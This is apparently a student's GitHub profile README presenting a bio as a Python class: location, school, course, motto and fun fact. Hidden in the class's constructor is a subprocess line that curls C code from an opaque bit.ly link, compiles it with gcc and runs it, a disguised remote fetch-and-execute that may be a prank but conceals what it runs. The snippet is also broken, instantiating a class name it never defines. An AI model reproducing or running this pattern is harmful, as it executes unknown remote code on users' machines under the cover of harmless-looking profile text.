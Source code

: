<h1 align="center">Yo 👋, I'm Dela Rosa, John Errol 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?font=Monospace&size=16&pause=1000&color=36BCF7F7&center=true&vCenter=true&random=false&width=485&lines=Jep+is+trying+his+best.;This+is+a+placeholder.;You+wanna+know+how+I+got+these+scars%3F" alt="Jep is trying his best." />
</p>

```python
class JepxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/j3px21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🙋‍♂️ You can call me'            : 'JEP (*insert_My_names_jeff_meme)',
      '- 🤷🏻‍♂️ What is this, nani'         : 'A GitHub repository dedicated to the CPE313 course',
      '- 🏡 I’m currently living in'    : 'Binangonan, Rizal',
      '- 🏫 I’m currently studying in'  : 'Technological Institute of the Philippines',
      '- 📓 Course code - title'        : {'CPE 313' : 'Advanced Machine Learning and Deep Learning'},
      '- 🎏 Section'                    : 'CPE32S8',
      '- 🌱 I’m currently pursuing'     : {'BSCpE' : 'Bachelor of Science in Computer Engineering'},
      '- 📊 My elective'                : 'Data Science',
      '- ❔ I dont know'                : '¯\_(ツ)_/¯',
      '- 👨‍💻 My amazing website project' : 'https://blogs.mtdv.me/blog/posts/jepowo',
      '- 💧 Motto in life'              : ('Empty your mind, be formless. Shapeless, like water. If you put water'
                                            'into a cup, it becomes the cup. You put water into a bottle and it'
                                            'becomes the bottle. You put it in a teapot, it becomes the teapot.'
                                            'Now, water can flow or it can crash. Be water, my friend.'),
      '- ⚡ Fun fact'                  : ('80% of Tibetan Buddhists chose to have a sky burial, in which their'
                                         'bodies are placed on mountain tops and consumed by birds of prey.')
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(PROxZIMA().__dict__)
```
